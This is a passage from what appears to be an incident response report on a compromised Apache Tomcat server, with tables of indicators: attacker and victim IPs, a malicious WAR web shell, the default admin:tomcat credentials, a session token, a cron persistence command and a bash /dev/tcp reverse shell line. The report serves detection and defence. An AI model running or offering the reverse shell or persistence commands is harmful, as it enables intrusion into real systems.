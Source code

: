 ### 7.1 Network Indicators

| Indicator | Type | Description | Threat Level |
|-----------|------|-------------|--------------|
| `14.0.0.120` | IP Address | Primary attacker system (China) | Critical |
| `10.0.0.112` | IP Address | Compromised Tomcat server | Critical |
| `JXQOZY.war` | Filename | Malicious web application archive | Critical |
| `/manager/html/` | URL Path | Compromised management interface | High |
| `/JXQOZY/` | URL Path | Web shell access endpoint | Critical |
| `443/TCP` | Port | Reverse shell callback port | High |

### 7.2 Credential Indicators

| Credential | Type | Description | Threat Level |
|------------|------|-------------|--------------|
| `admin:tomcat` | Username:Password | Compromised Tomcat credentials | Critical |
| `0DE586F27B2F48D0CA045F731E0E9E71` | Session ID | Compromised user session | High |
| `83EDF4E2462ECC725BAF342DD7A46974` | CSRF Token | Session security token | Medium |

### 7.3 Command Indicators

| Command | Description | Threat Level |
|---------|-------------|--------------|
| `crontab -i cron` | Persistence installation | Critical |
| `bash -i >& /dev/tcp/14.0.0.120/443 0>&1` | Reverse shell command | Critical |
| `whoami` | Privilege verification | Medium |
| `cd /tmp` | Working directory change | Low |

### 7.4 File and Process Indicators

| Indicator | Type | Description | Threat Level |
|-----------|------|-------------|--------------|
| `cron` | Filename | Temporary cron job file | High |
| `gobuster` | Tool | Directory enumeration tool | Medium |
| Apache Tomcat/7.0.88 | Service | Compromised web service | High |

---

## 8. Impact Assessment

### 8.1 Immediate Impact
